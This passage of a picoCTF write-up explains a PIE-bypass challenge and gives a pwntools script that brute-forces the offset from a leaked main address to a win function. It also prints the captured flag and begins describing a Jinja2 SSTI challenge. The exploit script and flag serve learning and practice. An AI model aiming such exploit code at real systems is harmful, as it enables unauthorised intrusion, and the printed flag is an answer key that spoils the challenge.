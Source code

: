 `printf("Address of main: %p\n", &main)` leaks main’s runtime address, giving us a reference point despite PIE.

If we jump to an invalid address, `segfault_handler()` catches the SIGSEGV, prints a message, and exits cleanly.

## Step 2: Crafting the Python Expoloit
This script automates the exploitation of the vuln binary running on the server. It connects to the server and grabs the leak and extracts the address if `main()` that is printed. It tests various offsets nandadds a range to `main's` addresses trying to find `win`. It send the guess and checks to see if `You won!` and then retrieves the flag.

```py
from pwn import *

def try_offset(offset):
    p = remote('rescued-float.picoctf.net', 61785)
    p.recvuntil(b"Address of main: ")
    main_addr = int(p.recvline().strip(), 16)
    win_addr = main_addr + offset
    log.info(f"Main: {hex(main_addr)}, Trying win: {hex(win_addr)} (offset {hex(offset)})")
    p.sendline(hex(win_addr)[2:].encode())
    try:
        response = p.recvall(timeout=2)
        print(f"Offset {hex(offset)}: {response.decode(errors='ignore')}")
        if b"You won!" in response:
            return True, response.decode()
    except EOFError:
        print(f"Offset {hex(offset)}: Connection closed (segfault)")
    finally:
        p.close()
    return False, None

# Test around -0x90
offsets = range(-0xa0, -0x7f, 1)
for offset in offsets:
    success, result = try_offset(offset)
    if success:
        print(f"Flag found at offset {hex(offset)}!")
        print(result)
        break
```

**Flag:**

`picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_3d38fb4b}`

## SSTI1 (Web Exploitation) - 03/11/25 | ~20 min
This challenge involved exploiting a Server-Side Template Injection (SSTI) vulnerability in a web application, built with Jinja2. The goal was to execute arbitrary code and retrieve a flag from the server.
